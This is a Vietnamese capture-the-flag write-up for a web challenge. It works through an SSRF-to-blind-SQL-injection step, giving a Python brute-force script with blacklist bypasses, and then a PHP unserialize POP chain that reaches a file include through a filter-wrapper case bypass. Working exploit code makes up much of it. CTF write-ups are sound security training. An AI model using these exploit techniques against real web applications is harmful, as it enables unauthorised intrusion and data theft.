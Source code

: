 # KMA CTF Birthday - Web exploitation

## Description
Có một hacker vừa gửi mail cho công ty chúng tôi và nói rằng trang web của chúng tôi có một lỗ hổng cực kỳ nghiêm trọng. Hỡi các người anh em thiện lành có thể giúp chúng tôi tìm ra lỗ hổng đó và gửi report cho công ty chúng tôi để bên kỹ thuật sửa chữa, tất nhiên bạn cũng sẽ có thưởng!! XD

*Source code*: Phía trên.

**self note**: Bài này mình giải khi giải đã kết thúc từ lâu nên mình chỉ dựng lại để tập.

## Review Source-Code 1

Cấu trúc web-server:
![tree](tree.png)

**Tóm tắt**:
`index.php`: Nhận `url` parameter và curl nó và chỉ trả về status là true | false.

`admin/index.php`: Admin mới access được.

`api/checkUser.php`: Dính lỗi sql injection khi nối `id` parameter trực tiếp tuy nhiên chỉ ở localhost mới truy cập được trang này. Khá dễ đoán khi mình cần dùng tính năng `curl` trên để curl đến endpoint này, ở đây sql query không trả về bất cứ kết quả gì. Kết hợp với curl đây có lẽ là dạng `sql injection time based`.
```php
if ($_SERVER['REMOTE_ADDR'] === '127.0.0.1') {

  
  if (!isset($_GET['id'])) {
    echo json_encode(array('result' => 'Missing parameter!!'));
  } else {
    $id = $_GET['id'];
    $id = preg_replace('/join|group|having|or|select|from|where|\ /', '',$id);
    $query = 'SELECT * FROM users WHERE id='.$id;
    $result = $conn->query($query);

    if ($result->num_rows > 0) {
      //echo $result;  hmmmm?? Xin lỗi vì lí do bảo mật :))))
    }
  }
} else {
  echo json_encode(array('result' => $_SERVER['REMOTE_ADDR'].'Only localhost can access that feature!!!'));
}
```

# EXPLOIT STEP 1
Ta cần đọc được password của admin bằng time based sql injection

Xây tool bằng python, bypass các `keyword` ở `api/checkUser.php` bằng cách viết hoa nó lên, `dấu cách` có thể thế bằng cách dùng comment `/**/`.

**Python tool**:
```python
#/usr/bin/env python3
import requests
import time

url = 'http://localhost:10666/'
s = requests.Session()

flag = ''
for i in range(1,30):
  for c in range(32,127):
    print(flag + chr(c))
    payload = f"http://localhost/api/checkUser.php?id=1/**/AND/**/IF(SUBSTRING((SELECT/**/paSSwORd/**/FROM/**/users/**/WHERE/**/id=1),{i},1)='{chr(c)}',SLEEP(3),1)"
    try:
      r = s.post(url + 'index.php', data={"url": payload}, timeout=3)
    except:
      flag += chr(c)
      print(f'[FOUND] - {flag}')
      break
```

**account**: admin:admin_password_for_testing

*Thêm một vài lưu ý*:
  
  Khi query để ra username thì không sao nhưng đến `password` lại chẳng ra gì, thử nhiều mới nhớ ra đoạn `or` bị blacklist và replace mất nên cũng cần viết hoa nốt để bypass. MySQL(và phần lớn DBMS khác) cấu hình default là case-insensitive.

  Mình định dùng `ASCII()` MySQL function cho quen và nhằm tránh ký tự đặc biệt nếu gặp đỡ escapce nhưng không được, không dùng cũng không sao, có lẽ mình đã nhầm ở đâu đó nhưng lười thử lại, đã có password rồi.


*Logged-in as admin*:

`admin/index.php`:
![admin area](admin_area.png)

## Review Source-Code 2

**Tóm Tắt**: 
`admin/index.php`: Ok một bài `serialize`, nhận data variable ở cookie mà mình có thể kiếm soát và `unserialize` nó.
```php
<?php 
require '../config.php';
require '../classes/chain.php';
 
if (isset($_SESSION['user']) && $_SESSION['user'] === 'admin')  {
  if (!isset($_COOKIE['data']))
    setcookie('data', base64_encode(serialize(new Url("http://www.ahihi.com"))));
  else {
    $cookie = base64_decode($_COOKIE['data']);
    if (preg_match('/\x00/', $cookie))
      die('Hacker detected :))))');
    else
      unserialize($cookie);
  }
}
else {
  die('Login as admin!!!');
}
?>
```
Chú ý sau khi `base64_decode` nó có check lại liệu `null byte(\x00)` có ở trong chuỗi, có thì trả về `Hacker Detect`.

`../classes/chain.php`: Ok dạng PHP unserialize POP Chains, phân tích dài dòng ở dưới

**Reference**: https://www.php.net/manual/en/language.oop5.magic.php

Tóm tắt  các `magic methods` trước khi review và generate `payload` nào:

**__wakeup()**: Tự động được gọi(Tdddg) sau khi object này được `unserialize()`, đây sẽ là startpoint của chain.

**__construct**:  Tdddg khi tạo 1 object từ class chứa nó đó.

**__invoke**: Tdddg khi gọi 1 object như là 1 hàm

**__toString()**: Tdddg khi "đối xử" với 1 object như string(ex: echo $obj; hay so sánh với string)

**__get()**: Tdddg khi gọi 1 object

Chain tất cả class lại với nhau(trừ class Url) và tạo ra payload nào. 

*Lưu ý*: Dùng lại tất cả các class trên để viết `serialized object` nhưng còn nhớ `Hacker Detect` phía trên chứ, theo PHP thì để biểu thị 1 `property` là private thì khi serialize nó sẽ add thêm `\x00` phía trước tên của property đó nên mình cần sửa `private $source;` của class `Source` thành `public $source;`.
```php
<?php
 
class Source {
  public $source; // trước đây là private $source;

  public function __construct($s) {
    $this->source = $s;
  }
  public function __invoke() {
    return $this->source->method;
  }
}


class File {
  public $file;

  public function __toString() {
    if (!preg_match('/^(http|https|php|data|zip|input|phar|expect):\/\//', $this->file)) {
      include($this->file);
    }
    return "Ahihhii";
  }
}

class Func2 {
  public $param;

  public function __wakeup() {
    $function = $this->param;
    return $function();
  }
}


class Func1 {
  public $param1;
  public $param2;

  public function __get($key) {
    $key = $this->param2;
    return $this->param1->$key();
  }
}

class Url {
  public $url;

  public function __construct($url) {
    $this->url = $url;
  }

  public function checkUrl() {
    if (preg_match('/[http|https]:\/\//', $this->url))
      return true;
    else
      return false;
  } 
}

# generate payload:
# Để viết chain mình(với mình) cần xác định `startpoint` và `endpoint` chính là class `Func2` và `File`.

// Lưu ý bypass php blacklist bằng Php
$fly = new File();
$fly->file = 'Php://filter/convert.base64-encode/resource=../flag.php'; // include flag.php được convert sang base64

$fun1 = new Func1();
$fun1->param1 = $fly;
$fun1->param2 = '__toString'; // gọi __toString() từ File

$src = new Source($fun1); // gọi __get() từ Func1

$fun2 = new Func2();
$fun2->param = $src; // gọi __invoke() từ Source

$data = serialize($fun2);

echo base64_encode($data) . "\n\n";
#unserialize($data); // gọi __wakeup() từ Func2
```

Ok, với code trên chỉ cần tập trung đọc hiểu chắc chắn bạn sẽ hiểu, giải thích thành lời sẽ dài dòng và gây rối(tất nhiên là không phải vì mình lười(chắc thế)).
